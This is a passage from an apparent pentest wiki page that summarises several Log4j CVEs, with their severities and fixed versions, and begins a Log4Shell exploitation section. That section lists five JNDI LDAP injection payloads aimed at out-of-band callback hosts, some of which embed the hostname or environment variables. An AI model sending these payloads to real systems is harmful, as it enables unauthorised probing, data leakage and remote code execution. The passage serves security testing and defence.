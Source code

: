 ### [CVE-2021-45046](https://nvd.nist.gov/vuln/detail/CVE-2021-45046) **[Critical]**
Initially rated low but later upgraded to critical, this CVE is a **Denial of Service (DoS)** flaw resulting from an incomplete fix in 2.15.0 for CVE-2021-44228. It affects non-default configurations, allowing attackers to cause DoS attacks through crafted payloads. A [tweet](https://twitter.com/marcioalm/status/1471740771581652995) showcases a bypass method. The issue is resolved in versions 2.16.0 and 2.12.2 by removing message lookup patterns and disabling JNDI by default.

### [CVE-2021-4104](https://nvd.nist.gov/vuln/detail/CVE-2021-4104) **[High]**
Affecting **Log4j 1.x versions** in non-default configurations using `JMSAppender`, this CVE is an untrusted deserialization flaw. No fix is available for the 1.x branch, which is end-of-life, and upgrading to `log4j-core 2.17.0` is recommended.

### [CVE-2021-42550](https://nvd.nist.gov/vuln/detail/CVE-2021-42550) **[Moderate]**
This vulnerability affects the **Logback logging framework**, a successor to Log4j 1.x. Previously thought to be safe, the framework was found vulnerable, and newer versions (1.3.0-alpha11 and 1.2.9) have been released to address the issue.

### **CVE-2021-45105** **[High]**
Log4j 2.16.0 contains a DoS flaw, prompting the release of `log4j 2.17.0` to fix the CVE. Further details are in BleepingComputer's [report](https://www.bleepingcomputer.com/news/security/upgraded-to-log4j-216-surprise-theres-a-217-fixing-dos/).

### [CVE-2021-44832](https://checkmarx.com/blog/cve-2021-44832-apache-log4j-2-17-0-arbitrary-code-execution-via-jdbcappender-datasource-element/)
Affecting log4j version 2.17, this CVE requires the attacker to control the configuration file of log4j. It involves potential arbitrary code execution via a configured JDBCAppender. More details are available in the [Checkmarx blog post](https://checkmarx.com/blog/cve-2021-44832-apache-log4j-2-17-0-arbitrary-code-execution-via-jdbcappender-datasource-element/).


## Log4Shell Exploitation

### Discovery

This vulnerability is very easy to discover if unprotected because it will send at least a **DNS request** to the address you indicate in your payload. Therefore, payloads like:

* `${jndi:ldap://x${hostName}.L4J.lt4aev8pktxcq2qlpdr5qu5ya.canarytokens.com/a}` (using [canarytokens.com](https://canarytokens.org/generate))
* `${jndi:ldap://c72gqsaum5n94mgp67m0c8no4hoyyyyyn.interact.sh}` (using [interactsh](https://github.com/projectdiscovery/interactsh))
* `${jndi:ldap://abpb84w6lqp66p0ylo715m5osfy5mu.burpcollaborator.net}` (using Burp Suite)
* `${jndi:ldap://2j4ayo.dnslog.cn}` (using [dnslog](http://dnslog.cn))
* `${jndi:ldap://log4shell.huntress.com:1389/hostname=${env:HOSTNAME}/fe47f5ee-efd7-42ee-9897-22d18976c520}` using (using [huntress](https://log4shell.huntress.com))
